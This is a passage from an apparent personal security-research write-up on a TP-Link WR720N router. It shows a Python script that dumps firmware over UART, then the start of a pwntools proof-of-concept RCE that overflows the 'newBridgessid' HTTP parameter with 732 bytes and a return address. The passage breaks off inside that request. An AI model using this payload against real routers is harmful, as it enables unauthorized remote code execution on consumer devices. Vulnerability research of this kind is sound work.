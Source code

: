 It’s basically just a hexdump of the memory. I tried finding an address I might want to try and jump to in memory. Specifically I just wanted a print, that I knew to work: ![unkhost](/pictures/unkhost.png) However I noticed that when I tried jumping to this, at this stage the address was off. It was not actually printing anything in the UART. That’s so weird I thought. After using the mem function a bit, I managed to find some strings, and looking in my code I confirmed that those were totally different addresses. Something went wrong when I made my loader, or they do something funky when they load it. Regardless I had to fix this somehow.

### Loading without the loader

I knew what I had to do. I had to use this mem function to dump the memory, however I could only dump a restricted amount of bytes at a time, and the file was going to be big. That would probably take some time. So I made a script that did this over UART, using pyserial. The main functionality of the script can be seen below:
```python
def read_mem(self, start_addr: int, end_addr: int, interval: int) -> list:
    if interval % 16 != 0:
        sys.exit("Sorry, interval must be divisible by 16 for now")

    print(f"[!] Reading from {start_addr:#x} to {end_addr:#x} - interval of {interval:#x}")
    data_arr = []

    for byte_vals in tqdm(range(start_addr, end_addr, interval)):
        self.uart.write(f"mem {byte_vals:#x} {interval}\r".encode())

        # Remove the command
        self.uart.readlines(1)

        for _ in range(interval//16):
            read_values = self.uart.readlines(1)[0]

            # Format data properly
            data = read_values[11:-24]
            data = data.replace(b"- ", b"")
            data = data.split(b" ")

            for val in data:
                data_arr.append(bytes([int(val, 16)]))

    return data_arr
``` 

The entire script can be found on my [Github](https://github.com/cavetownie). It’s very primitive, so will probably only work on some specific TP-Link routers, that format data the same way. Otherwise you can change the way the data is formatted yourself. After running the script for 35 minutes, we finally have a new firmware file. ![](/pictures/dumping_over_uart.png.png) Finally we can try making a small POC script to exploit this:

```python
###
# PoC - RCE (TP-LINK WR720N)
### 
from pwn import *

io = remote("192.168.0.1", 80)

def pp(x):
    return p32(x, endian="big")

print_ping = pp(0x800cd490)

task = print_ping

req = b"""GET /userRpm/WlanNetworkRpm.htm?newBridgessid="""+b"i"*732+task+b"""&Save=Save HTTP/1.1\r
Host: 192.168.0.1\r
```